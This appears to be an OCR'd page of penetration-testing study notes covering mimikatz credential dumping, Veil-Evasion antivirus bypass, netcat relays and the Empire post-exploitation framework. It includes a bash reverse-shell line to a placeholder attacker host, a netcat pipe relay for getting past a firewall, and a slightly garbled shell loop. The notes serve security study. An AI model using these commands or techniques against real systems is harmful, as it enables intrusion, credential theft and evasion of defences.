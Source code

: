 •	load kiwi (loads kiwi) & creds_all command will show cleartext password of dumped user password hashes from win memory (LSASS)

## Veil-Evasion (Framework)
•	Creates vulnerable software to install on victim’s PC that is not generally detected by antivirus
•	Methods: Shutdown AV, Ghost Writing, Encoding, Loading malware into memory with touching filesystem, Custom compilation
•	Veil-Framework: Veil-Evasion (create payload), Veil-Catapult (run payload if psexec fails), Veil-Pillage (post-exploit module for creds, disable UAC, enable RDP, etc.), Veil-PowerUp (PowerShell for privilege escalation)
•	./Veil-Evasion.py (creates a resources configuration file for Metasploit to run it (.rc))
o	Has payloads split by programming language (C, C#, Python, Ruby, etc.)
o	Releases new ways to bypass AV tools every 15 days in the past, but seldom now
o	Has stage, which is meterpreter or shell and has stager, communication channel like reverse_tcp
o	“clean” command will delete earlier created files under /usr/share/veil-output/ folder
o	‘ExitOnSession’ will be set of false, when using Veil-evasion’s Metasploit configuration file (*.rc). This value is by default set to ‘true’ in Metasploit

# Post Exploitation
Netcat (& relay):
•	Transferring files to and from server & client. Also for pivoting (compromised host as pivot to other systems)
•	Command for “Service is up”:
while `nc -vv -z -w3 ip port > /dev/null` ; do “Service is ok”; sleep 1; done; while (true); echo -e “\x07”; done
•	Instead of netcat, getting shell on victim machine is possible using command injection on GUI
/bin/bash -i > /dev/tcp/attacker-ip/attacker-port 0<&1
•	mknod backpipe p (p is to create FIFO, p refers to ‘named pipe’) (backpipe is a name that we give to this)
•	nc -l -p <target1-port> 0<backpipe | <target2-ip> 22 1>backpipe
o	To login from attacker pc: putty.exe <target1-ip> <target1-port> (enter target2’s user/pass to login)
o	this will help to bypass firewall that blocks port 22 in iptables
•	0 refers to standard input; 1 refers to standard output; 2 refers to standard error;

Empire (Post-exploitation framework, based on PowerShell) (By Will Scheroeder, Justin Warner, Matt Nelson)
•	Consists of controlling server, called listener (written in Python) and agent clients (written in PowerShell)
•	Mix of tools: PowerSploit (Matt Graeber, Chris Campbell, Joseph Bialek) + Posh-SecMod (Carlos Perez) + UnmanagedPowerShell (Lee Christiansen) + PowerShell-AD-Recon (Sean Metcalf)
•	Inbuilt PowerShell frameworks (ps1 files): PowerBreach (Persistence) | Posh-ModSec (Discovery, network situation info) | PowerSploit (code execution, screenshots, keystokes, logging) | PowerUp (priv escalation) | PowerView (Acct info, Domain info)
•	Provides ‘Not Opsec Safe’ reminders before running the stagger
•	Uses PowerShell but doesn’t require powershell.exe on target windows
•	Renames exploited sessions for easier tracking
•	Set killdates for the agents on compromised machines (and set working hours for agents)
•	Automatically configure agents, ready for deployment and callback
•	Can run a BypassUAC attack for Windows, not to pop-up the window for high privilege commands
•	Encrypts the traffic using StaggingKey (which is an md5 hash of providing value on command line)
•	Module categories: Code execution, Collection, Exfiltration (PII data as test for blue team), Exploitation (Jboss, Jenkins), Fun, Lateral movement (psexec another target, ssh), Management (email, RunAs, alter file system, inject hashes into local security authority sub-system (LSASS)), Persistence (reg key, task scheduler), Recon (sweeps), Situation awareness (ARP / SMB scan, Reverse DNS lookup, Domain info), Trollsploit (play ascii video and audio, rick roll – ‘never gonna give you up’)
•	usestager is the command to create agents / vulnerable executables onto target machines
